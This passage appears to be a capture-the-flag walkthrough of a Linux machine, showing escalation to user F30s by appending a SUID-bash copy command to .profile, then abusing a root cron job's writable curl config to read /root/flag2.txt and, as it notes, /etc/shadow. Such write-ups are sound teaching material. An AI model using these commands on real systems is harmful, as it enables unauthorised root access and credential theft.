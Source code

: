 ```bash
-l        Make bash act as if it had been invoked as a login shell (see INVOCATION below).
<SNIP>
```
We can now modify the .profile script in the user home directory and when the crontab is executed we can get an RCE.<br>
As RCE i chosed the bash suid in the tmp folder:
```bash
echo -e 'cp /bin/bash /tmp/bash;\nchmod +xs /tmp/bash' >> /home/F30s/.profile
```
After a minute we got RCE and logged in as F30s user!!
    
![f30s rce](./pic/f30_rce.png)
    

# root

Now we can take a look at the first crontab we saw above:
```bash
*  *    * * *   root    curl -K /home/F30s/site_check
```
Every minute the root user make a request with the `site_check` config file inside the home directory of `F30s` user (that we now controll).<br>
The content of the script is:
```bash
cat /home/F30s/site_check
```
output:
```bash
url = "http://127.0.0.1/health_check"
```
We can modify the config file to make any kind of requests:
```bash
nano /home/F30s/site_check
```
output:
```bash
url = "file:///root/flag2.txt" #we can also get the /etc/shadow file, no luck with cracking
-o "/tmp/flag.txt"
```
Anyway the flag is encrypted, in order to get the kile for the file we need to go back to the past as the `/secret-tip.txt` file said.<br>
So i remembered a file that we couldn't get from the cloud web application:
    